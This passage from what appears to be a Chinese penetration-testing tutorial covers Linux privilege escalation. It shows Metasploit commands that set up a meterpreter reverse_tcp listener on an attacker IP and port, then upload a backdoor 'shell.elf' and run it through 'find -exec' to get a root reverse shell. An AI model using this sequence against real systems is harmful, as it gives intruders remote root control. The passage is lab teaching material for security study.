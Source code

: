 ### 4.5.2. 开启监听

这里开启kali上的监听。

```
use exploit/multi/handler                      ##进入监听
set payload linux/x64/meterpreter/reverse_tcp  ##监听payload
set lhost 192.168.10.20                        ##设置监听地址
set lport 5555                                 ##设置监听端口
run																						 ##执行
```

![image-20230331122905795](assets/ozskMX5jTOlVD9f.png)

### 4.5.3. 上传后门

这里将后门上传到Linux系统中，并且给文件添加一个执行权限，然后再使用find进行执行。

```
chmod +x shell.elf     ##给后门木马添加权限
find 111 -exec ./shell.elf \;  ## 执行后门木马
```

![image-20230331122933587](assets/cue3p4PkDhZWodX.png)

### 4.5.4. 查看反弹效果

可以看到这里使用木马反弹回来的是root权限，那么我们输入内容就无需使用find进行执行了。

![image-20230331123006482](assets/ZPSYJjn4g3Ed98i.png)
